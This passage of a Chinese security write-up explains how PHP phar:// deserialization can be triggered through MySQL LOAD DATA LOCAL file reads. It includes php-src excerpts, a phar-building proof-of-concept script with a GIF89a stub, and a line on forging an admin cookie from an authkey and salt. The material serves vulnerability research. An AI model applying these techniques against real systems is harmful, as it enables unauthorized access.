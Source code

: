 当我们获得了authkey之后，我们可以通过admin的uid以及盐来计算admin的cookie。然后用admin的cookie以及UC_KEY来访问即可生效

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0130b4e2a98dea8039.png)

任意文件读 to 反序列化2018年BlackHat大会上的Sam Thomas分享的File Operation Induced Unserialization via the “phar://” Stream Wrapper议题，原文[https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf ](https://i.blackhat.com/us-18/Thu-August-9/us-18-Thomas-Its-A-PHP-Unserialization-Vulnerability-Jim-But-Not-As-We-Know-It-wp.pdf)。

在该议题中提到，在PHP中存在一个叫做[Stream API](https://secure.php.net/manual/zh/internals2.ze1.streams.php)，通过注册拓展可以注册相应的伪协议，而phar这个拓展就注册了phar://这个stream wrapper。

在我们知道创宇404实验室安全研究员seaii曾经的研究([https://paper.seebug.org/680/](https://paper.seebug.org/680/))中表示，所有的文件函数都支持stream wrapper。

深入到函数中，我们可以发现，可以支持steam wrapper的原因是调用了

```
stream = php_stream_open_wrapper_ex(filename, "rb" ....);
```

从这里，我们再回到mysql的load file local语句中，在mysqli中，mysql的读文件是通过php的函数实现的

```
https://github.com/php/php-src/blob/master/ext/mysqlnd/mysqlnd_loaddata.c#L43-L52

if (PG(open_basedir)) `{`
        if (php_check_open_basedir_ex(filename, 0) == -1) `{`
            strcpy(info-&gt;error_msg, "open_basedir restriction in effect. Unable to open file");
            info-&gt;error_no = CR_UNKNOWN_ERROR;
            DBG_RETURN(1);
        `}`
    `}`

    info-&gt;filename = filename;
    info-&gt;fd = php_stream_open_wrapper_ex((char *)filename, "r", 0, NULL, context);
```

也同样调用了php_stream_open_wrapper_ex函数，也就是说，我们同样可以通过读取phar文件来触发反序列化。

### 复现

首先需要一个生成一个phar

```
pphar.php

&lt;?php
class A `{`
    public $s = '';
    public function __wakeup () `{`
        echo "pwned!!";
    `}`
`}`


@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar
$phar-&gt;startBuffering();
$phar-&gt;setStub("GIF89a "."&lt;?php __HALT_COMPILER(); ?&gt;"); //设置stub
$o = new A();
$phar-&gt;setMetadata($o); //将自定义的meta-data存入manifest
$phar-&gt;addFromString("test.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar-&gt;stopBuffering();
?&gt;
```
